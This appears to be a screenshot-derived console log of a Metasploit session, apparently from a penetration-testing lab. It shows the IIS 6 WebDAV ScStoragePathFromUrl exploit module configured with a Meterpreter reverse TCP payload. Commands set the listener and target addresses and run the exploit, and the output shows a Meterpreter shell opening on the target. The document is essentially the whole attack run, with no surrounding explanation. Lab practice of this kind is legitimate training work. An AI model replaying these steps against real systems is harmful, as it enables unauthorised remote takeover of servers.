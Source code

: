 ```console
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute forc
                                             e
   Proxies                         no        A proxy chain of format type:host
                                             :port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), see https://g
                                             ithub.com/rapid7/metasploit-frame
                                             work/wiki/Using-Metasploit
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing co
                                             nnections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     198.211.116.24   yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.93
lhost => 10.10.14.93
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.129.162.7
rhosts => 10.129.162.7
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.129.162.7
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.162.7:1034 ) at 2022-08-16 18:37:45 +0100

meterpreter >
```
